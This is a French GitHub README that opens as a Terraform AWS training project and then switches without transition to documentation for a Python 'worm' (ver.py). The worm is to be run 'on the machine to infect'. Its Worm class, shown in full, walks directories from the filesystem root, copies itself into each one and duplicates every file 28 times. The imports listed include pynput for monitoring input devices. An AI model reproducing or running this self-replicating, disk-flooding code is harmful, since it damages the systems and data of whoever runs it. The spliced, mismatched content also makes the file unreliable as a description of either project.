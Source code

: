 <div style="display:flex; align-items:center;">
  <h1 style="margin-right:auto;">Projet-AWS-terraform</h1>
  <a href="https://terraform.io">
    <picture>
      <source media="(prefers-color-scheme: dark)" srcset="terraform_logo_dark.svg">
      <source media="(prefers-color-scheme: light)" srcset="terraform_logo_light.svg">
       <img src="terraform_logo_light.svg" alt="Terraform logo" title="Terraform" height="50">
    </picture>
  </a>
 <img src="https://img.shields.io/badge/Made%20with-terraform-blue" alt="Terraform badge">
</div>



Dans le cadre de notre semaine de formation sur les outils terraform et puppet nous avons un projet terraform à créer

## Sujet

Dans le cadre du projet nous devons déployer une infra complète aws avec terrafom, les prérequis sont :

- un module pour créer une instance ec2 utilisant la dernière version de ubuntu
- un module pour créer un volume ebs dont la taille sera variabilisée
- un module pour créer une security qui ouvrira le 80 et 443
- un dossier app qui va utiliser les 4 modules pour déployer une ec2


### Pré-requis

Il faut executer le fichier ver.py et avoir un dossier test ou le vers pourras ce dupliquer.


### Installation

* _Pour_ _Windows_ :

  Pour installer python il faut se rendre sur https://www.python.org/downloads/

* _Pour_ _Ubuntu_ :

  Pour installer python il faut utiliser la commande sudo apt-get install python

## Démarrage

Pour lancer le logiciel il faut juste taper *Python3 ver.py* sur la machine a infecter


## Explication du code 


* _Pour_ _ver.py_ :

--------------------------Les imports---------------------

os fournit une façon portable d'utiliser les fonctionnalités dépendantes du système d'exploitation

pynput permet de contrôler et de surveiller les périphériques d'entrée.

datime permet fournir différentes fonctions liées au temps 

logging permet de gerer les logs


----------------------Traitement------------------------

Tout d'abords nous avons la class worm pour la création de notre vers , le ver ce copy et ce replique dans un dossier test et modifie les extensions des fichier copié

```python
class Worm:
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path="/"
        else:
            self.path = path
        
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list=[]
        else:
            self.target_dir_list = target_dir_list

        if isinstance(target_dir_list, type(None)):
            self.iteration = 28
        else:
            self.iteration = iteration

        # path absolu
        self.own_path = os.path.realpath(__file__)
    
    def list_directories(self, path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)

        for file in files_in_current_directory:
            
            if not file.startswith('.'):
                # Prends le PATH complet
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
    
    def create_new_worm(self):
         for directory in self.target_dir_list:
            destination = os.path.join(directory, "vers.py")
            # Copie le script dans le nouveau répertoire avec un noms similaires
            shutil.copyfile(self.own_path, destination)

    def copy_existing_file(self):
        # La méthode suivante sera utilisée pour dupliquer les fichiers un nombre de fois (iteration)
         for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,(file+str(i)))
                        shutil.copyfile(source, destination)

   
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_file()
  ```
 
 
Le code suivant permet d'appeler toutes les foncitons au lancement du ver
